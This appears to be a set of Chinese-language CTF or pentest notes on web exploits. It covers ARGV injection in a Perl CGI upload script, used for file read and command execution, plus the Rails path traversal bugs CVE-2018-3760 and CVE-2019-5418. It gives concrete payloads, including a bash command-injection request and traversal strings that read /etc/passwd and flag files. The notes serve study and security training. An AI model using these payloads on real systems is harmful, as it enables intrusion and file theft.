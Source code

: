 ## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```

#### **1、文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。
![](.topwrite/assets/image_1735719387896.png)



#### **2、命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```



^
## **Ruby On Rails 路径穿越漏洞（CVE-2018-3760）**
Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

直接访问IP/assets/file:%2f%2f/etc/passwd，将会报错，因为文件/etc/passwd不在允许的目录中：
在上方的报错中随意选择一个路径利用../返回上一级，成功实现任意文件读取

payload：:8080/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/flag



## **Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）**
在控制器中通过render file形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入\`Accept: ../../../../../../../../etc/passwd

访问 /robots ，修改 Accept: ../../../../../../../../etc/passwd{{